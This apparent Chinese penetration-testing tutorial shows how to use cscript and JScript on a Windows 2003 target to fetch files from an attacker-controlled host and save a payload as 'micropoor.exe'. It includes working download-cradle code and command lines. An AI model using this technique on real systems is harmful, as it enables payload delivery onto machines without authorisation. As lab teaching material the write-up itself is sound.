 windows 全版本都会默认支持 js，并且通过cscript 来调用达到下载 payload 的目的。

**靶机：**windows 2003  

### 读取：
```bash
C:\test>cscript /nologo downfile.js http://192.168.1.115/robots.txt
```  
![](media/ac794b7eb3758d954dbf95912895dd41.jpg)

### 附代码：
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
WScript.Echo(WinHttpReq.ResponseText);
```
### 写入：
```bash
C:\test>cscript /nologo dowfile2.js http://192.168.1.115/robots.txt
```

![](media/21081f49afc31e94235293e3337967b7.jpg)

### 附代码：
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream"); BinStream.Type = 1;

BinStream.Open(); BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("micropoor.exe");
```

>后者的话：简单，易用，轻便。
>
>   Micropoor
